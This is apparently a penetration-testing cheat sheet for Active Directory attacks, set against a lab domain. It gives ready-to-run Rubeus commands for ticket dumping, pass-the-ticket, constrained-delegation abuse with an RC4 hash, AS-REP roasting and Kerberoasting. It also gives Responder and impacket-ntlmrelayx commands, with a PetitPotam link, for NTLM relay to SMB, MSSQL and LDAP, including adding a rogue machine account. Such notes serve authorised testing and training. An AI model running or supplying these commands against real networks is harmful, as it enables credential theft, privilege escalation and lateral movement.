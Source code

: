 #### Rubeus
```bash
# Unconstrained Delegate
# Ticket monitoring
.\Rubeus.exe monitor /interval:5 /nowrap
#PTT
## Sacrificial Process 
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe asktgs /ticket:BASE64 /service:cifs/dc01.INLANEFREIGHT.local /ptt 
# TGT renew
.\Rubeus.exe renew /ticket:BASE64 /ptt /nowrap

# Constrained Delegate
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.inlanefreight.local /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /ptt
## HTTP
Enter-PSSession ws01.inlanefreight.local


# PTT
## Sacrificial Process 
.\Rubeus.exe createnetonly /program:powershell.exe /show
## Ticket list 
.\Rubeus.exe triage
## Ticket Extracting
.\Rubeus.exe dump /luid:0x89275d /service:krbtgt /nowrap
.\Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA<SNIP> /ptt

# AS-REP
.\Rubeus.exe asreproast /nowrap /dc:

# Kerberoasting
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /nowrap /format:hashcat /dc:
# RC4
.\Rubeus.exe kerberoast /nowrap /format:hashcat /dc: /tgtdeleg
```


# Lateral Movement
## NTLM Relay 
https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py
```bash
# Enum target SMB
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
# Responder
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" /etc/responder/Responder.conf
responder -I tun0

# ntlmrelayx
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c
impacket-ntlmrelayx -smb2support -tf relayTargets.txt -c

# socks
## SMB
impacket-ntlmrelayx -smb2support -tf relayTargets.txt -socks
## MSSQL
impacket-ntlmrelayx -t "mssql://172.50.0.30" -smb2support -socks

# add computer
impacket-ntlmrelayx -t ldap://172.16.119.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'
```